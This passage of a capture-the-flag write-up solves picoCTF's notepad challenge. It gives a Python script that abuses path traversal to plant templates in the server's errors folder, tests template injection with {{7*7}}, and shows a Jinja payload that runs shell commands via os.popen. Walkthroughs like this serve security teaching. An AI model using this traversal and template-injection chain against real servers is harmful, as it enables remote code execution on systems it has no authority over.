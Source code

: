 ```bash
  <textarea name="content"></textarea>
  <input type="submit">
</form>⏎ 
```
And you can see our payload is rendered here. Now we know we have access to write on server in `errors` path
and any template python code will be rendered here.
First let's make a simple python code to do this procedure:

```python
import sys
import requests

base_url = 'https://notepad.mars.picoctf.net'

payload_content = sys.argv[1]
path_content = '..\\templates\\errors\\test' + (128-len('..\\templates\\errors\\test'))*'a'
content = path_content + payload_content

response = requests.post(f'{base_url}/new', data={'content': content}, allow_redirects=False)
redirected_url = response.headers['Location']
filename = redirected_url.split('/')[-1]
print(f'[+] File created with name: {filename}')

# Now try to get the file with ?error param
response = requests.get(f'{base_url}/?error={filename.rstrip(".html")}')
print('[+] Printing content of file')
print(response.text.split('\n')[5].replace(path_content, '').strip())
```

This code will get our payload from command argument and make the filepath, post it as content, get response and show us.

Let's try to send a template code like `{{7*7}}` in our pyaload:

```bash
$ python solve.py "{{7*7}}"

[+] File created with name: testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-ONAzPSs9EOg.html
[+] Printing content of file
49
```

Ok, now we can keep going and try to read flag from server. But the problem is `_` is also disabled. 
The idea is to read flag.txt at a random location generated in docker setup.
Here is a ssti payload to execute `id` command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
But we can't pass this payload, cause of `_` is filtered and will get following result:
```bash
python solve.py "{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
[+] File created with name: ?error=bad_content
```
